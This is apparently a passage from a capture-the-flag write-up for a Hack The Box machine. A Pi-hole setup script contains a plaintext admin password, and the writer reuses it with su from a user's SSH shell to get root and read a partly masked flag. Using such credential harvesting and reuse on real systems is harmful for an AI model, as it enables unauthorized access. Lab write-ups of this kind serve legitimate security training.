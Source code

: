 	  # Add local host record
	  /usr/local/bin/pihole -a hostrecord pihole.unbalanced.htb 127.0.0.1

	  # Set privacy level
	  /usr/local/bin/pihole -a -l 4

	  # Set web admin interface password
	  /usr/local/bin/pihole -a -p 'bUbBl3gUm$43v3Ry0n3!'

	  # Set admin email
	  /usr/local/bin/pihole -a email admin@unbalanced.htb

* there is a Pi-hole admin password: **bUbBl3gUm$43v3Ry0n3!** and su using this password from bryan's ssh shell worked and get root shell

	  bryan@unbalanced:~$ su - root
	  Password: bUbBl3gUm$43v3Ry0n3!
	  root@unbalanced:~# id
	  uid=0(root) gid=0(root) groups=0(root)
	  root@unbalanced:~# cat root.txt
	  8c97fa50************************
